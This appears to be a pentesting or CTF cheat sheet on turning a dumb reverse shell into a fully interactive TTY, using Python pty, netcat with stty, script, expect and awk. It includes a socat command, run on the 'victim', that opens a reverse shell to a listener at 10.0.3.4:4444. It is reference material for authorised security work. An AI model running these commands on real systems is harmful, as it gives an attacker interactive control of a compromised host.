 Upgrading from a 'dumb' shell to a fully interactive shell to prevent losing a shell from bad commands hanging or killing the connection with 'Ctrl-C'.

Other drawbacks
* Incorrect SIGINT handling
* Certain commands don't work (su, vi, nano, ssh)
* **No tab complete**
* no STDERR

# Three Methods
Reference: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
## Python
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
## socat
```
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
## netcat
```
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

# No Python?
Reference: https://github.com/rhamaa/Bash-And-CTF-Cheatsheet
## Script
```
SHELL=/bin/bash script -q /dev/null
```

## expect
```
expect -c 'spawn bash; interact'
```

## awk
```
awk 'BEGIN {system("/bin/bash")}'
```

Reference: https://www.boiteaklou.fr/Fully-interactive-reverse-shell.html

